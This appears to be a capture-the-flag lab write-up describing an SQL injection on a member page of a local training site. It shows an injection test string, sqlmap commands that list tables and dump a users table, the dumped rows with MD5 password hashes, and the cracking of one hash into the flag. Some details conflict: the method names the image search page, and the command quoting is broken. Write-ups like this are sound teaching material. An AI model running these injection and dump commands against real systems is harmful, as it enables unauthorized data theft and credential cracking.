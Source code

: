 # 02_Sql_injection_member

The GET parameter in the image search form is vulnerable.  


## Method

Go to http://192.168.1.59/index.php?page=searchimg.  
In the search field, search `1 AND 1=1`

## Manipulation

Open terminal (Powershell), run  
```bash
python sqlmap.py --url="http://192.168.1.59/index.php?page=member&id=3&Submit=Submit## --tables
```  

This displays all the databases & their tables.  
Thereafter tables can be dumped  
```bash
python sqlmap.py --url="http://192.168.1.59/index.php?page=member&id=3&Submit=Submit# --dump -T users
```  
where `users` refers to the table name  

```bash
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                   | countersign                                    |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                      | 2b3366bcfd44f540e630d4dc2b9b06d9               |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                     | 60e9032c586fb422e2c16dee6286cf10 (oktoberfest) |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d               |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28               |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
```

Decode flag  
```bash
5ff9d0165b4f92b14994e5c685cdce28 -> FortyTwo -> fortytwo -> 10A16D834F9B1E4068B25C4C46FE0284E99E44DCEAF08098FC83925BA6310FF5
```  


## Resolve

TBC

### Resources

https://www.hackers-arise.com/post/2017/04/24/database-hacking-part-4-extracting-data-with-sqlmap  
https://www.md5online.org/md5-decrypt.html  
https://passwordsgenerator.net/sha256-hash-generator/  
